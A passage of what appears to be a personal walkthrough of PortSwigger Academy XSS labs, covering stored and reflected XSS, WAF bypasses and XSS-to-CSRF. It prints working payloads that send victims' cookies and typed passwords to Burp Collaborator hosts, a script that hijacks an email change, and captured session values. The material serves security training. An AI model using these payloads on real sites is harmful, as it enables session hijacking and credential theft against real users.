~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Next we try the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
'document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
</p>< src=x onerror='document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie' /><p>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We receive cookies in Burp Collaborator:



Then intercept the request to the Home page and add these cookies:


15 Exploiting cross-site scripting to capture passwords
=======================================================

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.

---------------------------------------------

Reference: https://portswigger.net/web-security/cross-site-scripting

---------------------------------------------

Generated link: https://0a4b0017031c1eafc216d371007b007a.web-security-academy.net/


We test the most simple XSS payload:


It gets executed:


Next we test a payload from https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md: 

```
<script>var i=new Image;i.src="http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie="+document.cookie;</script>
```

Or

```

```


We get an HTTP request with the cookie:


Next I opened the Firefox debugger's Console and set the cookie:

```
document.cookie="secret=5yN1hPLMMamjE1mFPVb7ocKMq7BSYyTK"
```


But that does not work...


Solution:

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


Collaborator response:


Solved with credentials administrator:ec7ga43qyd9zisyb4h4i:


16 Exploiting XSS to perform CSRF
==================================

This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter

Learning path: If you're following our suggested learning path, please note that this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/cross-site-scripting/exploiting

- https://portswigger.net/blog/exploiting-xss-in-post-requests

- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/send


---------------------------------------------


There is a function to update the email:


It is a POST message:


There is a function to post comments:


These payload work:

```
</p><p>
<script>alert(1)</script>
```


We use this payload (similar to the one in https://portswigger.net/blog/exploiting-xss-in-post-requests):

```
<form name=TheForm action=https://0a8100660449e28b80a50877005400f4.web-security-academy.net/my-account/change-email method=post>
<input type=hidden name="csrf" value="wV6Kw7g2mIv6JLKjoQjmb3Nd6BhhXbmg">
<input type=hidden name="email" value="test7@test.com">
</form>
<script>
document.TheForm.submit();
</script>
```


When accessing the page, it creates a POST message:


And the email of my user changes to test7@test.com:


It is not working because we are using a hardcoded value for the CSRF token. We can take the value from the hidden value “csrf” of the page:


The csrf element uses the name so we can grab the content with:

```
document.getElementsByName('csrf')[0].value
```

However, if we do this we can not create a form with a csrf tag like we did before. But we can grab the CSRF token from "/my-account" and use a regular expression to get the content and set the value of the csrf element in the created form, and the submit the form:

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var csrf_token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
  console.log(csrf_token);
  var xhr = new XMLHttpRequest();
  xhr.open("POST", '/my-account/change-email', true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.onreadystatechange = () => { 
    if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
    }
  }
  xhr.send("email=test12@test.com&csrf="+csrf_token);
};
</script>
```


17 Reflected XSS into HTML context with most tags and attributes blocked
========================================================================

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

Note: Your solution must not require any user interaction. Manually causing print() to be called in your own browser will not solve the lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/cross-site-scripting/exploiting

- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

---------------------------------------------

The content of the search is reflected inside a h1 HTML element:


If we try to add a tag "h1" it gets blocked:


But not if it is "h2":


With this payload the HTML is generated correctly:

```
<h3>a</h3>
```


With this payload it says “Attribute is not allowed”:

```
<h3 onerror=alert(1)>a</h3>
```


I sent it to Intruder and got all events from https://portswigger.net/web-security/cross-site-scripting/cheat-sheet:  


The only ones working:
- onbeforeinput
- onratechange
- onscrollend
- onresize


I will do the same for the tags, in this case using Battery Ram attack type:


The only ones working:
- custom tags
- body


The information in the cheatsheet from these attributes is:


So we have 3 possible payloads, because as "audio" and “video” tags are not available we can not use "onratechange":

```
<xss contenteditable onbeforeinput=alert(1)>test
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><span id=x>test</span></xss>
<body onresize="print()">
```


Regarding the "onscrollend" payload, I updated it because it can not use “br” or “span”. However, it is necessary to scroll to the top or the bottom to see the alert pop:

```
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><h2>a</h2><h3 id=x>test</h3></h3>
```


Regarding the “onbeforeinput” payload, it is necessary to click the text and update it for the alert to pop:

```
<xss contenteditable onbeforeinput=alert(1)>test</xss>
```


The third one is valid but it needs the user to change the size of the tab:

```
<body onresize="print()">
```


We will send this last one inside an iframe:

```
https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E
```

```
<iframe src="https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" height="100%" title="Iframe Example" onload=body.style.width='100%'></iframe>
```

18 Reflected XSS into HTML context with all tags blocked except custom ones
===========================================================================

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom
tag and automatically alerts document.cookie.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts

The content of the search is reflected inside a h1 HTML element:



I will send the following payload to Intruder:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<tag attrib=alert(1)>text</tag>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

First test the attributes:



It seems all attributes are valid:



Then the tags:



These are valid: • animatetransform • animatemotion • custom tags • animate •
iframe2 • audio2 • image2 • image3 • input2 • input3 • input4 • video2 • 2 • set
• a2



For example we can pop an alert with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<xss autofocus tabindex=1 onfocus=alert(document.cookie)></xss>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://0a69008d036aebe780944ee10019004a.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<iframe src="https://0a69008d036aebe780944ee10019004a.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E" width="100%" height="100%" title="Iframe Example"></iframe>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

19 Reflected XSS with some SVG markup allowed
=============================================

This lab has a simple reflected XSS vulnerability. The site is blocking common
tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert()
function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts

The content of the search is reflected inside a h1 HTML element:


In this case it seems not even custom tags are allowed. I will test all possible
tags:



The valid tags are: - animatetransform - image - title - svg



And then all possible attributes: - onbegin



We get this payload from
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<svg><animatetransform onbegin=alert(1) attributeName=transform>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



20 Reflected XSS in canonical link tag
======================================

This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that
injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press
the following key combinations:

ALT+SHIFT+X CTRL+ALT+X Alt+X

Please note that the intended solution to this lab is only possible in Chrome.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts

-   https://portswigger.net/research/xss-in-hidden-input-fields







The page allows to post comments:



We find the link with 'rel="canonical"' in the head section of the HTML page:


We would like to turn it to:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<link rel="canonical" accesskey="X" onclick="alert(1)" />
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In the /post endpoint it is necessary to send a correct postId, but it is
possible to add more parameters which change the content of the href attribute:


A correct payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/post?postId=1&a=b'accesskey='X'onclick='alert(1)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


21 Reflected XSS into a JavaScript string with single quote 
============================================================

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

---------------------------------------------

References: 

- https://portswigger.net/web-security/cross-site-scripting/contexts


---------------------------------------------

The content of the search is reflected inside a h1 HTML element and a variable in Javascript with single quotes:


I used the payload:

```
';</script><script>var a='a
```


22 Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
======================================================================================================================

This lab contains a reflected cross-site scripting vulnerability in the search
query tracking functionality where angle brackets and double are HTML encoded
and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the
JavaScript string and calls the alert function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts


The content of the search is reflected inside a h1 HTML element and a variable
in Javascript with single quotes:


Single quote is escaped and “\<”, "\>" and ‘"’ are HTML-encoded:


A payload that works is:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
\';alert(1);//
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


23 Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
===========================================================================================================================

This lab contains a stored cross-site scripting vulnerability in the comment
functionality.

To solve this lab, submit a comment that calls the alert function when the
comment author name is clicked.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts


There is a function to post comments:


It generates the following HTML code:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<a id="author" href="http://test4.com" onclick="var tracker={track(){}};tracker.track('http://test4.com');">test2</a>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We see single quote and backslash characters are indeed escaped and angle
brackets and double quotes are HTML-encoded:


We will use “'” next:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://test4.com&apos;);alert(1);//
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /post/comment HTTP/2
...

csrf=e8yz3UQ62qX7CBfs9PFEanjwdYjzbaMz&postId=1&comment=test1&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com%26apos;);alert(1)%3b//
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

When clicking the username an alert pops:


24 Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks
============================================================================================================

This lab contains a reflected cross-site scripting vulnerability in the search
blog functionality. The reflection occurs inside a template string with angle
brackets, single, and double quotes HTML encoded, and backticks escaped. To
solve this lab, perform a cross-site scripting attack that calls the alert
function inside the template string.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts


The content of the search is reflected inside the variable “message”, a template
literal:


We can execute this payload inside the template literal:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
${alert(1)}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# 5 - Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.

---------------------------------------------

Reference: https://portswigger.net/web-security/cross-site-scripting

---------------------------------------------

Generated link: https://0a4b0017031c1eafc216d371007b007a.web-security-academy.net/


We test the most simple XSS payload:


It gets executed:


Next we test a payload from https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md: 

```
<script>var i=new Image;i.src="http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie="+document.cookie;</script>
```

Or

```

```


We get an HTTP request with the cookie:


Next I opened the Firefox debugger's Console and set the cookie:

```
document.cookie="secret=5yN1hPLMMamjE1mFPVb7ocKMq7BSYyTK"
```


But that does not work...


Solution:

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


Collaborator response:


Solved with credentials administrator:ec7ga43qyd9zisyb4h4i:


